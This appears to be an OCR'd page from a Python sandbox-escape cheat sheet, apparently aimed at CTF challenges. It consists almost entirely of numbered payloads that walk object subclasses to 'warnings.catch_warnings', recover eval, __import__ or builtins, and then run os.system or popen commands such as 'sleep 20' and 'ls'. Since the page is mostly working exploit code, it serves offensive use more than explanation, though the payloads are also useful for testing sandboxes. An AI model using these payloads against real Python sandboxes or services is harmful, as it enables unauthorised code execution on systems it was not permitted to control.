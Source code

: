 ```python

# 3 : Execute recovering eval symbol (class 59 is <class 'warnings.catch_warnings'>)
().__class__.__bases__[0].__subclasses__()[59].__init__.func_globals.values()[13]["eval"]("__import__('os').system('sleep 20')")



# 4 : Execute recovering __import__ (class 59s is <class 'warnings.catch_warnings'>)
#().__class__.__bases__[0].__subclasses__()[59]()._module.__builtins__['__import__']('os').system('ls')
i=().__class__.__bases__[0].__subclasses__()[59]()._module.__builtins__['__import__']('os')\ni.system('sleep 20')
i=().__class__.__bases__[0].__subclasses__()[59]()._module.__builtins__['__import__']('time')\ni.sleep(20)


# 5
{}.__class__.__base__.__subclasses__()[59]()._module.__builtins__['__import__']('os').system('sleep 20')



#6 - check
{}.__class__.__mro__.__getitem__(2).__subclasses__().pop(59).__init__.func_globals.get('linecache').os.popen('sleep 20').read()
# 6 - check
().__class__.__mro__.__getitem__(2).__subclasses__().pop(59).__init__.func_globals.get('linecache').os.popen('sleep 20').read()


#7
##### Steps : First restore "builtins", then import "builtin" and them use builtin to import "os"
__builtins__=([x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__)
__builtin__=__builtins__["__import__"]('__builtin__')
__builtin__.__dict__['__import__']('os').system('sleep 20')
__builtin__.__dict__['__import__']('os').system('sleep 20')


# Or you could obtain the builtins from a defined function
get_flag.__globals__['__builtins__']['__import__']("os").system("ls")


# 120 : # This will not restore __builtins__ , but can be used if some modules are restricted in __builtins__
# Working : Try to reload __builtins__ but we need the reload() builtin function in __bultins__
reload(__builtins__)
__builtins__["__import__"]('os').system('ls')
__builtins__["__import__"]('time').sleep(20)
```
{% endtab %}
